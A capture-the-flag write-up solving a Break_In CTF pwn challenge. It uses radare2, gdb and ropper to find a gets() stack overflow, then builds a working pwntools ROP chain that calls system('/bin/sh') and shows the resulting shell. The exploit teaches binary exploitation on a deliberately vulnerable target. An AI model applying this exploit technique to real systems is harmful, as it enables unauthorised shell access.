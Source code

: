Ch3k_0r_Di3 Pwn Challenge - Break_In CTF

Let's run the binary
```
# ./check 
Enter password: 
aaa
Wrong password!
```
I used radare2 to analyze the binary. "aaa" command will analyze everything. "afl" command can reveal all functions the binary have.
```
[0x004005e0]> afl
0x004005e0    1 42           entry0
0x00400620    4 42   -> 37   sym.deregister_tm_clones
0x00400650    4 58   -> 55   sym.register_tm_clones
0x00400690    3 34   -> 29   entry.fini0
0x004006c0    1 7            entry.init0
0x00400800    1 2            sym.__libc_csu_fini
0x00400804    1 9            sym._fini
0x00400790    3 101  -> 92   sym.__libc_csu_init
0x00400560    3 23           sym._init
0x00400610    1 2            sym._dl_relocate_static_pie
0x004006c7    6 199          main
0x00400590    1 6            sym.imp.puts
0x004005a0    1 6            sym.imp.setbuf
0x004005b0    1 6            sym.imp.system
0x004005c0    1 6            sym.imp.gets
0x004005d0    1 6            sym.imp.exit
```
There is a call to system() functions. using "iz" command, we can list strings the binary uses
```
[0x004005e0]> iz
[Strings]
Num Paddr      Vaddr      Len Size Section  Type  String
000 0x00000814 0x00400814  16  17 (.rodata) ascii Enter password: 
001 0x00000825 0x00400825  28  29 (.rodata) ascii Correct! You may proceed...\n
002 0x00000842 0x00400842   7   8 (.rodata) ascii /bin/sh
003 0x0000084a 0x0040084a  15  16 (.rodata) ascii Wrong password!
```
Wow, this will be easy since we have both system() function and "/bin/sh" string. If there is a buffer overflow in the program, we can get shell by chaining these two.
Disassembly of the main function showed this
```python
[0x004005e0]> pdf @main
<----------------------------------------------------SNIP----------------------------------------------------->
|	        c745fc000000.  mov dword [var_4h], 0
|           0x00400719      c745f8addead.  mov dword [var_8h], 0xdeaddead
|           0x00400720      c745f43fb33f.  mov dword [var_ch], 0xb33fb33f
|           0x00400727      488d3de60000.  lea rdi, qword str.Enter_password: ; 0x400814 ; "Enter password: " ; const char *s
|           0x0040072e      e85dfeffff     call sym.imp.puts           ; int puts(const char *s)
|           0x00400733      488d4590       lea rax, qword [s]
|           0x00400737      4889c7         mov rdi, rax                ; char *s
|           0x0040073a      e881feffff     call sym.imp.gets           ; char *gets(char *s)
|           0x0040073f      817df8addead.  cmp dword [var_8h], 0xdeaddead
|       ,=< 0x00400746      753f           jne 0x400787
|       |   0x00400748      817df43fb33f.  cmp dword [var_ch], 0xb33fb33f
|      ,==< 0x0040074f      7536           jne 0x400787
|      ||   0x00400751      837dfc00       cmp dword [var_4h], 0
|     ,===< 0x00400755      741a           je 0x400771
|     |||   0x00400757      488d3dc70000.  lea rdi, qword str.Correct__You_may_proceed... ; 0x400825 ; "Correct! You may proceed...\n" ; const char *s
|     |||   0x0040075e      e82dfeffff     call sym.imp.puts           ; int puts(const char *s)
|     |||   0x00400763      488d3dd80000.  lea rdi, qword str.bin_sh   ; 0x400842 ; "/bin/sh" ; const char *string
|     |||   0x0040076a      e841feffff     call sym.imp.system         ; int system(const char *string)
|    ,====< 0x0040076f      eb16           jmp 0x400787
|    ||||   ; CODE XREF from main @ 0x400755
|    |`---> 0x00400771      488d3dd20000.  lea rdi, qword str.Wrong_password ; 0x40084a ; "Wrong password!" ; const char *s
|    | ||   0x00400778      e813feffff     call sym.imp.puts           ; int puts(const char *s)
|    | ||   0x0040077d      bf00000000     mov edi, 0                  ; int status
|    | ||   0x00400782      e849feffff     call sym.imp.exit           ; void exit(int status)
<----------------------------------------------------SNIP----------------------------------------------------->
```
The function takes our input with a gets() call. It's vulnerable to buffer overflows.
```
# python -c 'print "A" * 500' | ./check
Enter password: 
[1]    6430 done                python -c 'print "A" * 500' | 
       6431 segmentation fault  ./check
```
Overflow confirmed. Let's use gdb to find the offset to which we can control the buffer. I generated a pattern with pwntools cyclic
```python
Program received signal SIGSEGV, Segmentation fault.
0x000000000040078d in main ()                                              
[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────── registers ─────────────────────────────────────────────────────
$rax   : 0x0                                                                                                                                          
$rbx   : 0x0                                                               
$rcx   : 0x00007ffff7faea00  →  0x00000000fbad208b                                                                                                    
$rdx   : 0x00007ffff7fb1590  →  0x0000000000000000
$rsp   : 0x00007fffffffde48  →  "paaaaaaaqaaaaaaaraaaaaaasaaaaaaataaaaaaauaaaaaaava[...]"                                                             
$rbp   : 0x616161616161616f ("oaaaaaaa"?)
$rsi   : 0x00007ffff7faea83  →  0xfb1590000000000a
$rdi   : 0x0               
$rip   : 0x000000000040078d  →  <main+198> ret 
$r8    : 0x00007fffffffddd0  →  "aaaaaaaabaaaaaaacaaaaaaadaaaaaaaeaaaaaaafaaaaaaaga[...]"
$r9    : 0x00007ffff7fb6500  →  0x00007ffff7fb6500  →  [loop detected]
$r10   : 0xfffffffffffff3ef
$r11   : 0x246             
$r12   : 0x00000000004005e0  →  <_start+0> xor ebp, ebp
$r13   : 0x00007fffffffdf20  →  "raaaaaabsaaaaaabtaaaaaabuaaaaaabvaaaaaabwaaaaaabxa[...]"
$r14   : 0x0               
$r15   : 0x0               
$eflags: [zero CARRY parity adjust SIGN trap INTERRUPT direction OVERFLOW RESUME virtualx86 identification]
$cs: 0x0033 $ss: 0x002b $ds: 0x0000 $es: 0x0000 $fs: 0x0000 $gs: 0x0000
```
This is a 64 bit binary. So things are a little different from 32 bit. We don't have an immediate RIP(Instruction Pointer) overwrite.
Segfault happens when the Instruction Pointer tries to fetch the return address from the stack. So we can find the offset by using our pattern contents
on the RSP(Stack Pointer) register. If I misunderstood any concepts, feel free to ping me.

Here the contents on the RSP is 0x00007fffffffde48. So we can find the offset like this
```python
gef➤  pattern offset 0x00007fffffffde48
[+] Searching '0x00007fffffffde48'
[+] Found at offset 120 (little-endian search) likely
[+] Found at offset 113 (big-endian search)
```
Attack plan:
Since we have call to system() and there is a reference to the "/bin/sh" string, we can use this directly with a simple rop chain. If this wasn't the case,
we could get shell by leaking a function address. With that leak we can find system() and "/bin/sh" address in the glibc. That's a common way of using rop chains to bypass ASLR(Address Space Layout Randomization)
 and NX / W^X (Non-Executable Stack / Write XOR Execute) which are mitigation techniques used in modern systems to prevent buffer overflow attacks. ASLR works by randomizing all addresses when the program runs each time.
 NX prevents stack from executing malicious shellcode. I explained this so that everyone can learn it.
 
For this to exploit we need a "pop rdi" gadget. Gadgets are assembly instructions, we can chain gadgets effectively construct our rop chain. "pop rdi" is needed because 64-bit function calling convention is poping function arguments to the registers in the order RDI, RSI, RDX and RCX.
We can get this gadget with ropper

```
# ropper --file check --search "pop rdi"
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: pop rdi

[INFO] File: check
0x00000000004007f3: pop rdi; ret;
```

Now we have everything. The exploit I made is

```python
#!/usr/bin/env python
from pwn import *
# got from radare2
system = p64(0x4005b0)
binsh = p64(0x400842)
pop_rdi = p64(0x4007f3)
expl = cyclic(120) # junk
expl += pop_rdi
expl += binsh
expl += system
print expl
```

Let's check.
```
# python check.py | ./check   
Enter password: 
[1]    7389 done                python check.py | 
       7390 segmentation fault  ./check
```
Hmm... Segfault again. This is not because the exploit failed. Its working. But we cannot interact with the shell like this.
But there is a simple and common technique to get shell. That is to use ```cat``` command. It will give us stdout and shell will not close
```
# (python check.py; cat) | ./check
Enter password: 
id
uid=1000(root) gid=1000(root) groups=1000(root)
ls  
begin  begin.py  check  check.py  flag.txt  leak  slide
cat flag.txt
FL4G{fake_flag_for_test}
```
Yes we got a shell. So we can use this technique against remote server to get the flag
